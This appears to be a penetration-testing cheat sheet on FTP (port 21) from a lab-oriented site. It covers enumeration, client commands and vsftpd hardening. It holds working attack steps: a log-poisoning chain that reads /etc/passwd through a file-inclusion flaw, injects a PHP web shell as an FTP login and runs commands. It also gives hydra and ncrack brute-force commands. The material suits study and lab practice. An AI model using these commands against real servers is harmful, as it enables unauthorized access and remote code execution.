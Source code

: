 ```yaml
---
title: 🟢 21 FTP (TCP)
date: 0021-01-01
layout: post
---
```


### Overview

[**File Transfer Protocol (FTP)**](https://en.wikipedia.org/wiki/File_Transfer_Protocol) is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.  

Default Port: `21`  
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```
 
When [Nmap](https://nmap.org) does not get the service header, it uses the [IANA](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml) db to determine the name of the service associated with that port.

---

### Enumeration

#### Active

```bash
nc -vn 192.168.1.2 21
timeout 0.1 bash -c "nc -nv 192.168.1.2 21"
nmap -p21 -sS 192.168.1.2
nmap -p21 -sVC 192.168.1.2
nmap -p21 --script="ftp-anon" 192.168.1.2
nmap -p21 --script="ftp-*" 192.168.1.2
```

#### Pasive

##### [Shodan](https://shodan.io)

```bash
port:21
port:21 vsftpd
port:21 proftpd 1.3.5
port:21 os:"Linux"
port:21 os:"Windows"
port:21 country:"US"
port:21 country:"US" os:"Linux"
port:21 hostname:"ftp.domain.tld"
```

---

### Usage & Commands

```bash
# upload file
put cmd.php
# upload all files
mput *
# download
get config.php
# download all files
prompt off
mget *
# binary mode enable
binary
# exit
bye
# rename file
ftp> rename cmd.php
(to-name) cmd.php5
# read files from ftp
ftp> less .htaccess
ftp> more .htaccess
```

#### Connect

```bash
# default port (21)
ftp peter@192.168.1.2
ftp anonymous@192.168.1.2
ncftp -u peter -p 'Passw0rd' 192.168.1.2
lftp -u anonymous, 192.168.1.2
lftp -u peter,'Passw0rd' 192.168.1.2

# ftps (error: Fatal error: Certificate verification: Not trusted)
lftp :~> set ssl:verify-certificate false

# other port
lftp -u peter,'Passw0rd' 192.168.1.2 -p 1234
ncftp -u peter -p 'Passw0rd' -P 1234 192.168.1.2
```

---

### Remote Code Execution (RCE)

#### Log Poisoning

If it detects a **Local File Inclusion (LFI)** and manages to read the `/etc/passwd` file.  

> ##### WARNING
> You should also verify that **port 21 (FTP)** is in the **open** state.
{: .block-warning }

```bash
file.php?file=/etc/passwd
```

If we can read the **FTP log file** located at `/var/log/vsftpd.log`.

```bash
file.php?file=/var/log/vsftpd.log
```

An attacker can poison that log file by **injecting PHP code** into a fake login.

```bash
lftp -u '<?php system($_GET["cmd"]); ?>', 192.168.1.2
```

We now have **Remote Command Execution (RCE)** on the destination server.

```bash
file.php?file=/var/log/vsftpd.log&cmd=id
```

---

### Brute Force

#### Password

If you got a `username` and need the `password` this is the way.

```bash
# default port (21)
ncrack --user peter -P rockyou.txt ftp://192.168.1.2 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2 -f -I     # ftp
hydra -t 64 -l peter -P rockyou.txt ftps://192.168.1.2 -f -I    # ftps
# other port
ncrack --user peter -P rockyou.txt ftp://192.168.1.2:1234 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2:1234 -f -I
```

#### Username

If you have a `password` and need the `username` this is the way.

```bash
# default port (21)
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2 -f
hydra -t 64 -L /opt/techyou.txt -p Passw0rd ftp://192.168.1.2 -f -I
# other port
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2:1234 -f
hydra -t 64 -L users.dic -p Passw0rd ftp://192.168.1.2:1234 -f -I
```

---

### Hardening & Configuration

#### Interesting Files

- `/srv/ftp` - Default **path**.
- `/var/log/vsftpd.log` - This file is for **logs**.
- `/etc/vsftpd.conf` - This file is for **configuration**.

#### Install

```bash
# client
apt install -y ftp
apt install -y lftp
# server
apt install -y vsftpd
```

#### Change Port

```bash
# default port
listen_port=21
# other port
listen_port=1234
```

#### User (Guest)

```bash
# enable
anonymous_enable=YES
# disable
anonymous_enable=NO
```

#### Banner Grabbing (Disable)

```bash
# show version
#ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd 3.0.3
# hidden version
ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd
```

#### Daemon (Listener)

```bash
# external (0.0.0.0)
listen_address=0.0.0.0
listen_port=21
listen=YES
# internal (localhost)
listen_address=127.0.0.1
listen_port=21
listen=YES
```

#### Service

```bash
service vsftpd start
service vsftpd stop
service vsftpd restart
service vsftpd status

/etc/init.d/vsftpd start
/etc/init.d/vsftpd stop
/etc/init.d/vsftpd restart
/etc/init.d/vsftpd status

systemctl start vsftpd
systemctl stop vsftpd
systemctl restart vsftpd
systemctl status vsftpd
```

---

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span style="color: #ffffffa4;">© VulNyx 2023-2025</span>
</div>
